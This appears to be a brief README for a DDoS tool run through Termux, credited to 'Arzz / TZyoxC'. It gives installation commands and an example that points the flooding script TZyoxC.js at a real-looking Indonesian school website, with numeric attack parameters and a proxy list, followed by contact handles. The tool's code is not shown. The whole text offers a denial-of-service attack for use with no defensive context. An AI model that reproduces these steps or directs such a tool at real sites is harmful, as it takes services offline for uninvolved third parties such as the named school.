DDOS VIA TERMUX By Arzz / TZyoxC🕊️

Command 👇
pkg upgrade && pkg update 
termux-setup-storage
termux-change-repo 
pkg install nodejs 
cd TZyoxC
cd /sdcard
cp -r TZyoxC $HOME
cd
cd TZyoxC
npm i
node TZyoxC.js

Example👇
node TZyoxC.js https://smpn2bantul.sch.id 500 5 9 proxy.txt

Contact : @arzexd / @TZyoxC
